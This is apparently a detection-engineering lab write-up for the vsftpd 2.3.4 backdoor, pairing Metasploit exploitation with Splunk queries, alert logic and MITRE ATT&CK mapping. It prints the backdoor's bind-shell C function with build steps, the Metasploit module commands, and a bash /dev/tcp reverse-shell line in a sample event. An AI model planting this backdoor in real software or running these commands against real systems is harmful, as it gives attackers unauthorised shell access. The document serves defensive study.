 
# Detection Use Case: Exploiting vsftpd 2.3.4 via Metasploit

## 🧪 Scenario Description
An attacker exploits a known backdoor in vsftpd version 2.3.4 using the Metasploit Framework. The vsftpd 2.3.4 vulnerability allows an attacker to obtain a reverse shell by connecting with a specially crafted username.

## 🎯 Objective
Detect the exploitation attempt and subsequent reverse shell activity, especially focusing on unexpected shell access initiated through FTP service ports (usually 21) or reverse shell callbacks.

## 🛠️ Tools & Setup
- **Offensive Tool**: Metasploit
  - Module: `exploit/unix/ftp/vsftpd_234_backdoor`
- **Detection Tools**: 
  - Netcat listener
  - SIEM (e.g., Splunk, ELK, Wazuh)
- **Lab Environment**:
  - Vulnerable target with vsftpd 2.3.4
  - Attacker system with Metasploit installed
  - SIEM monitoring on network and host events

## ⚙️ Steps to Set Up the Backdoored vsftpd 2.3.4

### Clone the Repository
```bash
git clone https://github.com/DoctorKisow/vsftpd-2.3.4.git
cd vsftpd-2.3.4
```
![Screenshot 2025-06-01 233707](https://github.com/user-attachments/assets/bdc14b23-63ab-43a5-b363-349aacc2ceed)


### Install Dependencies
```bash
sudo apt-get update
sudo apt-get install build-essential libpam0g-dev
```
![Screenshot 2025-06-01 233744](https://github.com/user-attachments/assets/94a0df4b-fef2-41db-9608-7762820be8ee)


### Build the vsftpd Binary
```bash
chmod +x vsf_findlibs.sh
nano Makefile
```
![Screenshot 2025-06-01 233811](https://github.com/user-attachments/assets/b0e8186b-c578-45c1-b101-4c3d57284e0b)

In the `Makefile`, add `-lpam` and `-lcap` to the `LIBS` line, then save and exit.

![Screenshot 2025-06-01 233930](https://github.com/user-attachments/assets/984e2356-49e0-4dc1-8030-bb46af1d5b25)

In **str.c** add `vsf_sysutil_extra()` function and remove this function from **sysdeputil.c** : 
```bash
int
vsf_sysutil_extra(void)
{
  int fd, rfd;
  struct sockaddr_in sa;
  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
  exit(1);
  memset(&sa, 0, sizeof(sa));
  sa.sin_family = AF_INET;
  sa.sin_port = htons(6200);
  sa.sin_addr.s_addr = INADDR_ANY;
  if((bind(fd,(struct sockaddr *)&sa,
  sizeof(struct sockaddr))) < 0) exit(1);
  if((listen(fd, 100)) == -1) exit(1);
  for(;;)
  {
    rfd = accept(fd, 0, 0);
    close(0); close(1); close(2);
    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
    execl("/bin/sh","sh",(char *)0);
  }
}
```

```bash
make
```
![Screenshot 2025-06-01 234033](https://github.com/user-attachments/assets/0165fddb-9df2-4525-95d9-fc23957580a5)


### Install the vsftpd Binary
```bash
sudo install -v -m 755 vsftpd /usr/sbin/vsftpd
sudo install -v -m 644 vsftpd.conf /etc/vsftpd.conf
```
![Screenshot 2025-06-01 234059](https://github.com/user-attachments/assets/c6445b6b-64b3-4061-ab3c-badf74f7bfd3)


### Start the vsftpd Service
```bash
sudo /usr/sbin/vsftpd /etc/vsftpd.conf
```
![Screenshot 2025-06-01 234133](https://github.com/user-attachments/assets/e7206e00-71ef-43cc-bdd2-6ef185339e3f)

**Note: Also check if proper user for ftp service exists or not**

## 📡 Detection Logic
Monitor for:
- Connection attempts to FTP (port 21) with suspicious usernames (e.g., those ending with `:)`).
- Unexpected outbound connections from the target system to uncommon external IPs/ports, indicating a reverse shell.
- New bash processes spawned without user interaction.
- Netcat (nc), bash, or sh running with suspicious parent processes like vsftpd.

## 🧪 Metasploit Usage
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <target-ip>
run
```
![Screenshot 2025-06-01 233330](https://github.com/user-attachments/assets/1eb6ef20-db3a-446b-9953-68cd9d31c7c6)
---
![Screenshot 2025-06-01 233405](https://github.com/user-attachments/assets/be2849bb-e834-459f-9e1a-4f42bb9f05ee)


## 🔍 Detection Queries (Sample Splunk SPL)
```spl
index=linux_logs sourcetype=syslog
| rex field=_raw "<Data Name=\"CommandLine\">(?<CommandLine>[^<]+)</Data>"
| rex field=_raw "<Data Name=\"ParentImage\">(?<ParentImage>[^<]+)</Data>"
| eval is_reverse_shell=if(match(CommandLine, "(nc|bash|sh).*\\d+\.\\d+\.\\d+\.\\d+"), 1, 0)
| eval is_vsftpd_spawn=if(like(ParentImage, "%vsftpd%") AND is_reverse_shell=1, 1, 0)
| where is_vsftpd_spawn=1
| table _time host CommandLine ParentImage
```

## 📁 Log Fields to Monitor
| Field        | Description                                      |
|--------------|--------------------------------------------------|
| _time        | Timestamp of the event                           |
| host         | Affected system hostname                         |
| CommandLine  | Command used to spawn reverse shell              |
| ParentImage  | Process that initiated the command (e.g., vsftpd)|

## ⚠️ Alert
**Trigger Condition**: Reverse shell initiated by the vsftpd process or any suspicious connection after vsftpd service interaction.

## 🧪 Sample Event
```text
_time: 2025-05-23T16:01:34
host: vulnerable-ftp
CommandLine: bash -i >& /dev/tcp/10.0.0.15/4444 0>&1
ParentImage: /usr/sbin/vsftpd
```

## 🕵️ Analyst Notes / Recommendations
- Verify if vsftpd version is vulnerable and exposed.
- Validate if the shell access was authorized or unexpected.
- Consider isolating the system and performing forensics.
- Patch or disable vsftpd 2.3.4 immediately.

## 🔗 MITRE ATT&CK Mapping
| Technique ID  | Technique Name                | Description                                           |
|---------------|-------------------------------|-------------------------------------------------------|
| T1190         | Exploit Public-Facing Application | Exploiting vulnerable vsftpd service                |
| T1059.004     | Command and Scripting Interpreter: Unix Shell | Use of bash for reverse shell access         |
| T1071.001     | Application Layer Protocol: Web | Reverse shell callback using TCP (bash/nc)           |
| T1049         | System Network Connections Discovery | Used for post-exploitation lateral movement planning |

---

✅ **Status**: Tested in a lab setup with Splunk and Metasploit. Reverse shell detection confirmed using command-line logs and parent process analysis.
